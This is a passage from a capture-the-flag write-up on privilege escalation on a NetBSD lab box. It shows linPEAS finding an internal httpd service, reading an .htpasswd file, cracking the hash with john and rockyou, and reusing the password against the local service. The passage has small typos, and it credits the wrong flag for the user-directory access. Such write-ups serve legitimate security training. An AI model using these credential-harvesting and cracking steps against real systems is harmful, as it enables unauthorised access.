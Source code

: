 After we run linPEAS, we can notice that there is an internal web service listening localhost, port 3000 and 3001 as user `r.michaels` 
```bash
╔════════════════════════════════════════════════╗
══════════════════════════╣ Processes, Crons, Timers, Services and Sockets ╠══════════════════════════
╚════════════════════════════════════════════════╝
╔══════════╣ Cleaned processes
╚ Check weird & unexpected proceses run by root: https://book.hacktricks.xyz/linux-unix/privilege-escalation#processes
_
[... SNIP ...]
r.michaels  185  0.0  0.0  34996  1976 ?     Is    7:07AM 0:00.00 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3001 -L weather /home/r.michaels/devel/webapi/weather.lua -P /var/run/httpd_devel.pid -U r.michaels -b /home/r.michaels/devel/w
ww
root          1  0.0  0.0  19848  1512 ?     Ss    7:07AM 0:00.02 init
```
Now let's enumerate all the flags this process is using by reading [httpd NetBSD Docs](https://man.netbsd.org/NetBSD-9.0/httpd.8) :
* -u Enables the transformation of Uniform Resource Locators of the form /~user/ into the directory ~user/public_html
* -X Enables directory indexing.
* -s Forces logging to be set to stderr always
* -i Bind address
* -I Bind port
* -L prefix script: Adds a new Lua script for a particular prefix.
* -P pidfile: Causes httpd to create a pid file in pidfile
* -U username:  switch to the user and the groups of username after initialization.
* -b Enables daemon mode
Now, let's try to leverage the -u flag.  
If we try to curl the webserver we get a 401 error:  
```bash
$ curl http://127.0.0.1:3000/
<html><head><title>401 Unauthorized</title></head>
<body><h1>401 Unauthorized</h1>
/: <pre>No authorization</pre>
<hr><address><a href="//127.0.0.1:3000/">127.0.0.1:3000</a></address>
</body></html>
```
Since we have access to the box, it should be asy to lookup the password.  
```bash
$ cat /var/www/.htpasswd
webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0
```
Now, let's crack it:  
```bash
[root@kali Luanne ]$ john --wordlist=/usr/share/wordlists/rockyou.txt htpasswd.txt
arning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 512/512 AVX512BW 16x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
iamthebest       (webapi_user)     
1g 0:00:00:00 DONE (2022-05-26 10:56) 25.00g/s 76800p/s 76800c/s 76800C/s my3kids..ANTHONY
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Now that we got the password we can use it against the local webserver.  
After enumerating port 3000 we do not get anythin, but, if we enumerate port 3001, we can leverage the -b flag we were suspecting being vulnerable:  
```
$ curl --user webapi_user:iamthebest http://127.0.0.1:3001/~r.michaels/                                            
```